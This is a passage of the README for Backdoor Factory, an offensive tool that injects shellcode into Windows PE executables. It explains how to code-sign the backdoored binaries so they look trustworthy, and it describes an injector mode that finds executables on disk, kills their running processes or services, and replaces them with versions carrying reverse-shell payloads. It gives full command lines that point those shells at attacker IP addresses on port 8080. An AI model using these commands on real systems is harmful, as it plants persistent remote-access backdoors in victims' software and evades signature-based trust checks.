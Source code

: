 ###PEcodeSigning

BDF can sign PE files if you have a codesigning cert. It uses osslsigncode.
Put your signing cert and private key in the certs/ directory.  Prep your certs using openssl commands from this blog post:
http://secureallthethings.blogspot.com/2015/12/add-pe-code-signing-to-backdoor-factory.html

Put your private key password in a file (gasp) as so (exactly as so): 
    
    echo -n yourpassword > certs/passFile.txt

Name your certs EXACTLY as follows:
	
    signingCert.cer => certs/signingCert.cer
    signingPrivateKey.pem => certs/signingPrivateKey.pem

Your certs/ directory should look excatly as so:
    
    certs
    ├── passFile.txt
    ├── signingPrivateKey.pem
    └── signingCert.cer

Enable PE Code Signing with the -C flag as so:

     ./backdoor.py -f tcpview.exe -s iat_reverse_tcp_inline -H 172.16.186.1 -P 8080 -m automatic -C


On successful run you should see this line in BDF output:

    [*] Code Signing Succeeded



---
###Hunt and backdoor: Injector | Windows Only
    The injector module will look for target executables to backdoor on disk.  It will check to see if you have identified the target as a service, check to see if the process is running, kill the process and/or service, inject the executable with the shellcode, save the original file to either file.exe.old or another suffix of choice, and attempt to restart the process or service.  
    Edit the python dictionary "list_of_targets" in the 'injector' module for targets of your choosing.

    ./backdoor.py -i -H 192.168.0.100 -P 8080 -s reverse_shell_tcp -a -u .moocowwow 

---

###Changelog

####07/04/2016

* Support for dynamic paths in BDFProxy for preprocessor

####06/19/2016

* Added the preprocessor and other optimizations
* The preprocessor allows the user to modify the binary prior to payload injection
* Invoke with the -p flag
* See samples in ./preprocessor/


####12/20/2015
